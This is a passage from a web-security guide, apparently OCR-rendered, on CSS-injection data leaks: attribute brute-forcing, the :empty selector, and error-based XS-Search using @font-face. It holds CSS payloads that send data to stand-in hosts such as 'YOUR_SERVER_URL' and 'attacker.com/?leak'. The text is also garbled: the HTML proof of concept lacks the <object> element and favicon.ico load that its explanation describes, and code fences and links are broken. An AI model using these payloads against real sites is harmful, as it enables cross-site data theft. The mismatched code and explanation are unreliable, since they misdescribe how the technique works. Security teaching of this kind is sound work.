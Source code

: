 ```
Automation: a Burp Custom Action can generate nested inline-style payloads to brute-force attribute values: https://github.com/PortSwigger/bambdas/blob/main/CustomAction/InlineStyleAttributeStealer.bambda

### Other selectors

Other ways to access DOM parts with **CSS selectors**:

- **`.class-to-search:nth-child(2)`**: This will search the second item with class "class-to-search" in the DOM.
- **`:empty`** selector: Used for example in [[https://github.com/b14d35/CTF-Writeups/tree/master/bi0sCTF%202022/Emo-Locker|**this writeup**]]**:**

  ```css
  [role^="img"][aria-label="1"]:empty {
    background-image: url("YOUR_SERVER_URL?1");
  }
  ```

### Error based XS-Search

**Reference:** [[https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html), [Error-Based XS-Search PoC by @terjanq](https://twitter.com/terjanq/status/1180477124861407234|CSS based Attack: Abusing unicode-range of @font-face ]]

The overall intention is to **use a custom font from a controlled endpoint** and ensure that **text (in this case, 'A') is displayed with this font only if the specified resource (`favicon.ico`) cannot be loaded**.

```html
<!DOCTYPE html>
<html>
  <head>
    <style>
      @font-face {
        font-family: poc;
        src: url(http://attacker.com/?leak);
        unicode-range: U+0041;
      }

      #poc0 {
        font-family: "poc";
      }
    </style>
  </head>
  <body>
    A
  </body>
</html>
```
```
1. **Custom Font Usage**:

   - A custom font is defined using the `@font-face` rule within a `<style>` tag in the `<head>` section.
   - The font is named `poc` and is fetched from an external endpoint (`http://attacker.com/?leak`).
   - The `unicode-range` property is set to `U+0041`, targeting the specific Unicode character 'A'.

2. **Object Element with Fallback Text**:
   - An `<object>` element with `id="poc0"` is created in the `<body>` section. This element tries to load a resource from `http://192.168.0.1/favicon.ico`.
   - The `font-family` for this element is set to `'poc'`, as defined in the `<style>` section.
   - If the resource (`favicon.ico`) fails to load, the fallback content (the letter 'A') inside the `<object>` tag is displayed.
```